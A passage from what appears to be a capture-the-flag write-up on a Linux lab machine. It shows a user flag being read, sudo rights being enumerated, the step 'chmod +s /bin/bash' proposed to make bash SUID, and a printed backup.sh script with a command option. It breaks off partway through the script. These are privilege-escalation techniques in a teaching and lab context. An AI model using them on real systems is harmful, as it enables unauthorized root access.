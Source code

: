 ```

alex@ubuntu:~$ 
```

We're in !!!

Let's get the flag
```
cat user.txt

flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

Time to privesc.

```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Easy !! Let's modify backup.sh to run it with sudo.

Let's set SUID for bash
```
chmod +s /bin/bash
```

Hum !! Not so easy finally, backup.sh is owned by alex, but the directory mp3backups is owned by root and not writable.
Nevermind. Let's check this backup.sh.
```sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
   case "${flag}" in 
    c) command=${OPTARG};;
   esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

```